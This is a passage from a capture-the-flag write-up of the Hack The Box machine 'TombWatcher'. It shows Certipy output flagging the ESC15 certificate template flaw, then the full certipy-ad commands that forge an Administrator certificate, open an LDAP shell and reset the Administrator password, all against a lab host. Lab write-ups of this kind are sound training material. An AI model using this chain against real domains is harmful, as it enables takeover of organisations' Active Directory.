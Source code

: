 ```
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.
```

The **WebServer template** has a vulnerability (**ESC15**) that **allows us to create a certificate as if we were another user**. This means we could gain access to important accounts, including **Domain Admin**, and use it to escalate privileges within the domain. Instructions for exploitation: [**ESC15**](https://www.hackingarticles.in/adcs-esc15-exploiting-template-schema-v1/)

To exploit the vulnerability, we first request a certificate in the name of the **Administrator** using **Certipy**.

```
certipy-ad req -dc-ip 10.10.11.72 -ca tombwatcher-CA-1 -target DC01.tombwatcher.htb -u cert_admin@tombwatcher.htb -p 'admin1234' -template WebServer -upn administrator@tombwatcher.htb -application-policies 'Client Authentication'
```

This command generates a **.pfx** file containing the certificate with **Administrator** privileges.

Next, we use that certificate to **authenticate** and open an **LDAP session with administrative access**.

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```

This gives us a **Domain Admin** session, allowing us to control the domain and execute critical actions.

![20](/images/writeups/tombwatcher/20.png)

Using the `help` command, we see what actions can be executed.

![21](/images/writeups/tombwatcher/21.png)

We can change the **Administrator** user’s password.

![22](/images/writeups/tombwatcher/22.png)

![23](/images/writeups/tombwatcher/23.png)

Finally, we obtain the **Root Flag** and complete the machine!!